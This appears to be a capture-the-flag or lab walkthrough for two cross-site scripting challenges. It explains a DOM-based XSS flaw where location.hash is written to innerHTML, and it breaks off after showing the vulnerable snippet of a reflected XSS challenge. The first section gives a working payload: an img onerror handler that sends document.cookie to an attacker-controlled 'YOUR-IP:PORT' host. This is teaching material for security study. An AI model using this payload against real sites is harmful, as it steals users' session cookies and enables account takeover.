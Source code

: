 ## 🧨 Challenge: `xss-5` — **DOM-Based XSS (Client-Side JavaScript Vulnerability)**

### 🔍 Vulnerable Code Snippet:

```javascript
document.getElementById("output").innerHTML = location.hash;
```

### 🔎 What’s happening?

* `location.hash` gets the URL fragment (the part after `#` in the browser URL bar).
  Example:
  If URL = `http://localhost/#hello`, then `location.hash` is `#hello`.

* `innerHTML` means "insert this value as **HTML**", not just text.

### 🚨 Why is it vulnerable?

* Whatever you put after `#` is **directly inserted as HTML** into the page!
* No filtering or sanitization → **you can insert actual HTML/JavaScript tags**

### 🧪 Payload:

```html
#<img src=1 onerror=fetch('http://YOUR-IP:PORT/?cookie='+document.cookie)>
```

#### ✅ Syntax Explanation:

* `#` → starts the URL fragment (your input)
* `<img src=1>` → invalid image URL to trigger an error
* `onerror=...` → JavaScript runs when the image fails to load
* `fetch(...)` → sends a GET request to your server with the cookies

### 📌 Injection Vector:

* You control the `location.hash` (URL fragment) in the browser.

### ⚠️ Sink:

* `element.innerHTML` → this is **where** the vulnerable code is using your input in a dangerous way.

---

## 🧨 Challenge: `xss-6` — **Reflected XSS (Server-Side HTML Injection)**

### 🔍 Vulnerable Code Snippet:

```javascript
res.send(`<h1>Hello ${name}</h1>`);
```
